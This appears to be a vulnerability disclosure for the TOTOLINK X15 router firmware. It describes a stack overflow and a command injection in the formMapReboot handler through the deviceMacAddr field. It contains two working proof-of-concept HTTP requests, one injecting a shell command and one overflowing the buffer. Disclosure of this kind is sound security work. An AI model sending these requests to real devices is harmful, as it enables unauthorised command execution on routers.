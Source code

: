 #### Affected version

V1.0.0-B20230714.1105

#### Vulnerability details

There are stack overflow and command injection vulnerabilities in the formMapReboot function. There is no good control length by setting deviceMacAdd. There is a stack overflow when strcpy is copied, and the return address can be overwritten. When v5 is copied to the v4 variable, there is no command filtering, and command execution can be achieved, so that command execution can be achieved.
![1](TOTOlink-x15-Gh-V1.0.0-B20230714/1.png)

![image-20250523202635487](TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523202635487.png)

#### POC1-(code-injection)

~~~http
POST /boafrm/formMapReboot HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Referer: http://192.168.0.1/tcpipwan.htm
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 983

sessionCheck=91c636aec77c15df3117a988288bd371&deviceMacAddr=127.0.0.1; touch /1.txt &
~~~

##### result

![image-20250523202943693](TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523202943693.png)

#### POC2-(stack_overflow)

~~~http
POST /boafrm/formMapReboot HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Referer: http://192.168.0.1/tcpipwan.htm
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 983

sessionCheck=91c636aec77c15df3117a988288bd371&deviceMacAddr=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
~~~

##### result

![image-20250523203451493](TOTOlink-x15-Gh-V1.0.0-B20230714/image-20250523203451493.png)
